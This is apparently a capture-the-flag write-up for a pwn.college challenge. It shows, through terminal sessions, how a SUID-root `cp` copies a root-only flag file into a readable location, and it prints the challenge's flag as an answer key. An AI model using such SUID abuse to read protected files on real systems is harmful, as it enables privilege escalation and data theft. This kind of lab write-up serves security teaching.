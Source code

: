 `cp` short for `copy` , is a command-line utility in Unix-like operating system used to copy files and directories from one location to another.

https://www.freecodecamp.org/news/how-to-copy-a-directory-in-linux-with-the-cp-command/

If you read this article, you will find this.

`Preserving file attributes: By default, the 'cp' command copies files without preserving their attributes such as permissions, timestamps, and ownership`

Bang! that's what we need. Let's create a file named as `text`. We then copy the `flag` file to the `text` file. As we have the read permission to the `text` file, we can `cat` it.

```bash
hacker@program-misuse-level-39:~$ /challenge/babysuid_level39 
Welcome to /challenge/babysuid_level39!

This challenge is part of a series of programs that
let you get the flag by doing tricks with permissions.

I just set the SUID bit on /usr/bin/cp.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level39) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/cp!
hacker@program-misuse-level-39:~$ cat /flag
cat: /flag: Permission denied
hacker@program-misuse-level-39:~$ touch text
hacker@program-misuse-level-39:~$ ls -l text
-rw-r--r-- 1 hacker hacker 0 Jan  3 09:19 text
hacker@program-misuse-level-39:~$ ls -l /flag
-r-------- 1 root root 57 Jan  3 09:07 /flag
hacker@program-misuse-level-39:~$ cp /flag /home/hacker/text 
hacker@program-misuse-level-39:~$ ls -l text 
-rw-r--r-- 1 hacker hacker 57 Jan  3 09:19 text
hacker@program-misuse-level-39:~$ cat text
pwn.college{8rZvvc7w67_6CgJtTqfIUBNCsns.0VM4EDL0AjNzQzW}
```

You can also mention which file attributes you don't want to preserve.

```bash
cp --no-preserve=mode /flag home/hacker
```

If you don't want to preserve any of the file attributes, you have to use `--no-preserve=all`.

```bash
hacker@program-misuse-level-39:~$ cp --no-preserve=mode /flag /home/hacker/
hacker@program-misuse-level-39:~$ ls
Desktop  demo  flag
hacker@program-misuse-level-39:~$ ls -l
total 12
drwxr-xr-x 2 hacker hacker 4096 Dec 30 07:37 Desktop
drwxr-xr-x 2 hacker hacker 4096 Jan  2 18:00 demo
-rw-r--r-- 1 root   hacker   57 Jan  3 10:39 flag
hacker@program-misuse-level-39:~$ cat flag
pwn.college{8rZvvc7w67_6CgJtTqfIUBNCsns.0VM4EDL0AjNzQzW}
```

